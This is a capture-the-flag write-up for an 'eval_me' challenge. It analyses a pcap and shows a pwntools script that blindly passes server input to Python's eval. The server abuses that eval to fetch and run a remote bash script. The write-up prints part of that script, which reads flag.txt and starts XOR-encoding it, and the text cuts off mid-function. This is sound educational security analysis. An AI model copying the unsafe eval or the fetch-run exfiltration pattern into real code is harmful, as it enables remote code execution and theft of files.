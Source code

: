 Looking through the recorded packets we see a lot of different protocols being used (TLSv1.3, HTTP, DNS, TCP). The most interesting packets come from the HTTP protocol, as there seems to be some sort of communication in JSON between a client and a server.

![Http](eval_me_http_packets.png)

All the http-packets have this structure, with the client sending a POST request with curl to the server with some varying value for the JSON `data` field, and the server then responding with a `ok:true` for each request.

The values sent from the client in the `data` field seem like jibberish, but looks interesting enough that we keep the values for later in case we uncover something more in this challenge. We can apply a filter to only get http-packets of length 215 to get all the packets sent by the client(either by parsing the values with *tshark*, manually, or other preferable methods).

As we don't find anything more particulary interesting in the pcap it is worth investigating the server address and port we are given.

![Netcat](eval_me_netcat.png)

As the challenge is called `eval_me`, we should probably use the python function `eval` for this challenge to solve all the math problems. What could possibly go wrong by blindly calling `eval`...

I wrote this little python script to solve the math problems. The script also prints the received math-equations, as this challenge smells a bit fishy...

```python
from pwn import *

io = remote("chals.sekai.team", 9000)

io.recvuntil(b":)")
io.recvline()
io.recvline()
calc = io.recvline().strip()

io.sendline(str(eval(calc)).encode())

for i in range(99):
    io.recvuntil(b"correct\n")
    calc = io.recvline().strip()
    print(calc)
    io.sendline(str(eval(calc)).encode())
```
{: file="math.py" }

When running the script we see what was sort of expected

![Eval](eval_me_evil.png)

In the middle of the equation solving there is some code passed to our `eval` function, which makes our script execute the python code, which in this case fetches, runs, and deletes a bash-script from `https://shorturl.at/fgjvU`. Manually fetching the script, called `extract.sh`, from the url we see the following code
```bash
#!/bin/bash

FLAG=$(cat flag.txt)
KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }
XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3
    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do
        val1=$( Asc "${DataIn:$ptr:1}" )
```